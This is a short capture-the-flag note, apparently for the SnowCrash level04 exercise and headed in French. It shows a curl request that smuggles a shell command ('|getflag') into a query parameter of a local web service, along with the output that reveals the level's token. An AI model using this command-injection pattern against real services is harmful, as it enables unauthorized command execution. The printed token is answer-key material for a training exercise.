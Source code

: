 ### Comment obtenir le flag
level04@SnowCrash:~$ curl http://localhost:4747?x="|getflag"  
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap  
